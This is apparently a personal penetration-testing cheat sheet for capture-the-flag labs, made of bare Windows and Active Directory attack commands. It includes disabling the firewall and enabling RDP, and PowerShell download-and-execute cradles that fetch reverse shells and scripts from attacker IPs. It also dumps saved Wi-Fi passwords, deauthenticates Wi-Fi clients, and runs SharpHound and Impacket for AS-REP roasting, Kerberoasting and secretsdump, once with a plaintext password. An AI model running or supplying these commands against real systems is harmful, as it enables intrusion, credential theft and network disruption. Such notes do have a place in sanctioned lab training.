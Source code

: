 ## gci
  ```
  gci -recurse -include *.*
  ```
## remote desktop
  ```
  reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
  netsh advfirewall firewall set rule group="remote desktop" new enable=yes
  NetSh Advfirewall set allprofiles state off
  netsh firewall set opmode disable
  ```
## wget for windows
  ```
  C:\Windows\SysNative\Windowspowershell\v1.0\powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.6/winshell.ps1')"
  Invoke-WebRequest "http://10.10.14.7/winpeas.exe" -OutFile "peas.exe"
  (New-Object Net.WebClient).DownloadFile("http://10.10.14.9:8000/reverse.exe","/reverse.exe")
  powershell "(new-object System.Net.WebClient).Downloadfile('http://10.10.14.7/winpeasany.exe', '.\peas.exe')"
  cd \windows\temp & powershell IEX(IWR http://10.10.14.7/winshell.ps1 -UseBasicParsing)
  ```
## mostrascontraseñaswifi
  ```
  for /f "skip=9 tokens=1,2 delims=:" %i in ('netsh wlan show profiles') do @echo %j | findstr -i -v echo | netsh wlan show profiles %j key=clear | find "clave"
  ```
## pcap2
  ```
  sudo airodum-ng -w file -c 3 --bssid 90:9A:4A:90:9A:4A wlan0
  sudo aireplay-ng --deauth 0 -a 90:9A:4A:90:9A:4A wlan0
  
  ```
## bloodhound
  ```
  ./sharphound.exe -c all -d EGOTISTICAL-BANK.LOCAL --domaincontroller 10.10.10.175  --ldapusername fsmith --ldappassword Thestrokes23
  ```
## Impacket
  ```
  python3 GetNPUsers.py active.htb/ -dc-ip 10.10.10.100 -request
  python3 secretsdump.py support/ldap@10.10.11.174
  Kerberoast
   python3 GetUserSPNs.py support.htb/ldap -dc-ip 10.10.11.174 -request
  ```
## NFS
  ```
  mount -o anon \\192.168.1.3\storage X:
  ```
## ldap
  ```
  ldapsearch -x -H ldap://10.10.10.172 -D '' -w '' -b "DC=megabank,DC=local" -s sub "(objectclass=user)" | grep description,info
  ```
## winrm
  ```
  ```